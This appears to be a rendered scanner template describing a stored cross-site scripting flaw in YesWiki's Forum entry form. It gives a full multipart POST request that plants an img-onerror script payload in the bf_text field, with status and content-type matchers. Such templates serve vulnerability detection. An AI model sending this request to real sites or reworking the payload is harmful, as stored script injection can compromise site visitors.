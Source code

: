 **Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# YesWiki - Stored Cross-Site Scripting

## Description

- YesWiki contains a stored contains a cross-site scripting vulnerability via the bf_text field when adding a new entry for Forum.

- severity - high
- tags - yeswiki,xss,stored,huntr

## Requests

### Step - 1

```
POST /?BazaR&vue=saisir&action=saisir_fiche&id=2 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryT8dS2PT0WtxACLyu

------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="bf_titre"

blog
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="bf_text"

"><img src=x onerror=console.log(123);>
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream

------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="bf_description"

abcd
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="fichierbf_file"; filename=""
Content-Type: application/octet-stream

------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="antispam"

1
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="id_typeannonce"

2
------WebKitFormBoundaryT8dS2PT0WtxACLyu--

```
